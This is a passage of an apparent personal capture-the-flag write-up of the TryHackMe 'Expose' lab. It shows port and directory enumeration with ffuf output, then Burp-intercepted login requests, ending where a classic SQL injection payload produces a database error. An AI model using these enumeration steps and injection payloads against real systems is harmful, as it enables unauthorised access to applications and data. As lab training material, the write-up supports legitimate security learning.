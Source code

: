 # Hack Log 8 - TryHackMe [Expose](https://tryhackme.com/room/expose)

📆:**Date:** 2025-07-25  
🔍**Objective:** Obtain user and root flags.  
🎯**Target**: TryHackme Expose (Lab CTF)  

---  

## 🛠️ Actions Taken  

## Port and Service Enumeration  

```
nmap -sS -1-100
```



### Directory Enumeration  

```bash
  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.9.220:1337
```

→ Directory enumeration revealed some interesting directories  
  ```bash
          /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.134.199:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 990ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 2997ms]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 180ms]
admin_101               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 160ms]
javascript              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 181ms]
phpmyadmin              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 393ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 157ms]
```  
→ Visiting **/admin** revealed that it is just a static login page with no underlying logic.   
→ Visiting **/admin_101** revealed the true login page with the username field holding the placeholder "hacker@root.thm".  
→ Intercepted the login request using BurpSuite.  
  - Request
  ```html
    POST /admin_101/includes/user_login.php HTTP/1.1
    Host: 10.10.134.199:1337
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 41
    Origin: http://10.10.134.199:1337
    Connection: keep-alive
    Referer: http://10.10.134.199:1337/admin_101/
    Cookie: PHPSESSID=ed88u1abhecumvrqb9dvk7ls02
    Priority: u=0
    
    email=hacker%40root.thm&password=password
  
  ```
  - Response
  ```html
  HTTP/1.1 200 OK
  Date: Fri, 25 Jul 2025 09:38:58 GMT
  Server: Apache/2.4.41 (Ubuntu)
  Content-Length: 111
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: application/json
  
  {
      "status": "error",
      "messages": [
          "SELECT * FROM user WHERE email = 'hacker@root.thm'"
      ]
  }
  ```
  - This response reveals the SQL query being executed in the backend.


### SQL Injection  

→ Injecting the sql payload.  

  - Request
    ```html
    POST /admin_101/includes/user_login.php HTTP/1.1
    Host: 10.10.134.199:1337
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 41
    Origin: http://10.10.134.199:1337
    Connection: keep-alive
    Referer: http://10.10.134.199:1337/admin_101/
    Cookie: PHPSESSID=ed88u1abhecumvrqb9dvk7ls02
    Priority: u=0
    
    email='%20or%201=1--&password=password
    ```
  - Response
    ```html
    HTTP/1.1 200 OK
    Date: Fri, 25 Jul 2025 09:43:26 GMT
    Server: Apache/2.4.41 (Ubuntu)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 147
    Keep-Alive: timeout=5, max=100
    Connection: Keep-Alive
    Content-Type: text/html; charset=UTF-8

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
    ```

 → The SQL error in the response reveals that the application is prone to SQL Injection.  
